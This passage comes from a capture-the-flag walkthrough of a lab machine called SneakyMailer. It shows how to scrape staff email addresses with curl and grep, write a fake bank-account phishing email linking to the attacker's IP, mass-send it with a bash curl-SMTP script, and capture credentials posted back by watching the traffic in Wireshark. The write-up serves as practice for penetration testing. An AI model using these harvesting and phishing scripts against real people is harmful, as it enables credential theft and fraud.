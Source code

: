 This is not something common on ctf boxes, but the image of the machine is a hint, we have to do a phishing campagin, the pagination is made on js but all the information is gotten on the first request, so we can get all the emails with a single request, so we request the page, grab the lines with "sneakymailer.htb", get rid of the html tags and save it to a file called maillist.txt, to do that we use the next commands: `curl http://sneakycorp.htb/team.php | grep "sneakymailer.htb" | cut -d ">" -f 2 | cut -d "<" -f 1 > maillist.txt`.
When you do a phising campaign you probably want to go for spear phishing or whaling, and you might want to make a "believable" phishing page, but ctfs are more about of practicing concepts rather than simulating real scenarios, so we don't have to build any webpage, python http.server will be enough, also we will flood all the emails with the same message.

Now that we have the list of emails we can send the messages, there are some tools to do that, but we will script something simple, `curl` can be used to send emails to smtp servers, first we will create a file called "mail.txt" which will contain the email, it just has to fulfill the basic email structure.
```
From: 5ubterranean@sneakymailer.htb
To: tigernixon@sneakymailer.htb
Subject: Your bank account

http://10.10.15.120/account/
```
Then we have to build the script that will send the email to all the emails on the list, we called it phish.sh.
```bash
#!/bin/bash
OLDMAIL='tigernixon@sneakymailer.htb'
while read p; do
	sed -i "s/${OLDMAIL}/${p}/" mail.txt
	curl smtp://sneakycorp.htb --mail-from 5ubterranean@sneakymailer.htb --mail-rcpt ${p} --upload-file mail.txt
	OLDMAIL=${p}
done <  maillist.txt
```
"tigernixon@sneakymailer.htb" is the first email on maillist.txt, that's why we are starting with it, so what the script does is: It reads every line on maillist.txt, changes the email inside "mail.txt" and sends it using curl to the target email, note that receiver changes in two places, actually there is no need of changing the email inside "mail.txt", but let's try to look more legitimate at least here.
Before running "phish.sh" we have to start our http server on port 80, `sudo python3 -m http.server 80` and also wireshark, once we have both running we can fire up the script, after waiting for a while we will see that our server gets a POST request.

![](/assets/images/sneakymailer/postgot.png)

But there is a problem, by default python http server doesn't support POST requests, that's why we needed wireshark, we filter for packets coming from the machine that used POST request: `ip.src == 10.10.10.197 && http.request.method == POST`
